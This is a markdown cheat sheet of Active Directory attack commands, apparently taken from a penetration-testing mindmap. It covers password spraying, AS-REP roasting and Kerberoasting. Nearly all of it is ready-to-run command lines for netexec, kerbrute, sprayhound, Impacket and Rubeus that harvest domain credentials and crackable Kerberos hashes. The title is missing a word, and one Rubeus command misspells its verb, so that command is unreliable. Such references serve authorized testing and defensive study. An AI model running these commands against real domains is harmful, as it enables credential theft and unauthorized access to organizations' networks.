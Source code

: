 Technical notes for  of Windows Active Directory environments, extracted from [orange-cyberdefense](https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg).


---
## Password Spray

**Purpose:** test a small set of passwords across many accounts (or user\==password checks) while avoiding account lockouts; collect any cleartext credential successes.

### Get password policy (do this before testing)

- Avoid account lockouts and respect FGPP.

```bash
# Obtain password policy with netexec
nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol

# Default domain policy (via PowerShell or domain-aware tools)
Get-ADDefaultDomainPasswordPolicy

# LDAP (domain policy)
ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> domain_policy

# Fine-grained (PSO) policies
ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> pso
Get-ADFineGrainedPasswordPolicy -Filter *
```


### user == password checks (lab/CTF)

```bash
# nxc: user list vs single password (user==pass via spray tool flags)
nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success

# sprayhound user==pass mode
sprayhound -U <users.txt> -d <domain> -dc <dc_ip>   # add flags (--lower/--upper) as needed
```

### Common password spraying (few common passwords, many users)


```bash
# sprayhound with one password
sprayhound -U <users.txt> -p <password> -d <domain> -dc <dc_ip>

# kerbrute password spray
kerbrute passwordspray -d <domain> <users.txt> <password>

# nxc mass auth with continue-on-success
nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success
```


---

## ASREP Roast & Kerberoast (Valid-User, No-Password)

The purpose is obtaining crackable Kerberos material (AS-REP or TGS) for accounts without pre-auth or for SPN service accounts. Works with valid usernames (or user lists) without initial plaintext passwords.

### List ASREP-roastable users

- Query via BloodHound or LDAP attributes:
```bash
# BloodHound (Neo4j)
MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u
```

### AS-REP Roasting (accounts that do not require preauth)
- Request AS-REP and extract data for offline cracking.

```bash
# Impacket: GetNPUsers (hashcat format)
GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat -outputfile output.txt

# Impacket via nxc (if supported)
nxc ldap <dc_ip> -u <users.txt> -p '' --asreproast <output.txt>

# Rubeus (Windows)
Rubeus.exe asreproast /format:hashcat
```

### Kerberoasting (SPN / service account TGS)

- Request TGS for SPN-bearing service accounts and crack offline.

```bash
# Impacket: GetUserSPNs (no-preauth / SPN request)
GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>/"

# Rubeus keberoast (Windows)
Rubeus.exe keberoast /domain:<domain> /dc:<dc_ip> /nopreauth:<asrep_user> /spns:<users.txt>

# Targeted tool example
targetedKerberoast.py -u <user> -p <password> -d <domain> -t "<SPN>" --dc-ip <dc_ip>
```
